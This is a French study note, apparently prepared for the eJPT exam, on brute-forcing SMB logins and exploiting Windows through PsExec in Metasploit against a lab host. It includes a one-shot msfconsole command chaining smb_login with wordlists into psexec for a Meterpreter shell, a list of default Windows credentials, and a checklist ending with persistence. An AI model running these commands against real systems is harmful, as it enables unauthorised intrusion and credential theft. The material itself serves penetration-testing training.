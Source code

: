 ### Workflow optimisé examen
```bash
# One-shot brute force + exploitation
msfconsole -x "use auxiliary/scanner/smb/smb_login; set RHOSTS demo.ine.local; set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt; set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt; set VERBOSE false; exploit; use exploit/windows/smb/psexec; set RHOSTS demo.ine.local; set SMBUser Administrator; set SMBPass qwertyuiop; set LHOST your_kali_ip; exploit"
```

### Credentials Windows courants eJPT
```bash
# Utilisateurs fréquents
Administrator:password
Administrator:admin
Administrator:123456
Administrator:qwertyuiop            # Comme dans l'exemple
admin:admin
guest:guest
user:password
backup:backup
```

---

## 📋 10. Checklist exploitation PsExec

### ✅ Phase de reconnaissance
- [ ] **Port SMB 445** ouvert et accessible
- [ ] **Protocoles SMB** identifiés
- [ ] **Partages admin** (ADMIN$, C$) détectés
- [ ] **OS Windows** confirmé

### ✅ Phase de brute force
- [ ] **Module smb_login** configuré
- [ ] **Wordlists appropriées** sélectionnées
- [ ] **Options optimisées** (VERBOSE false, THREADS 16)
- [ ] **Credentials valides** trouvés et notés

### ✅ Phase d'exploitation
- [ ] **Module PsExec** configuré
- [ ] **Credentials** correctement saisis
- [ ] **LHOST/LPORT** configurés
- [ ] **Session Meterpreter** obtenue
- [ ] **Privilèges SYSTEM** confirmés

### ✅ Phase post-exploitation
- [ ] **Navigation système** testée
- [ ] **Flag** localisé et lu
- [ ] **Énumération** complémentaire effectuée
- [ ] **Persistence** installée si nécessaire
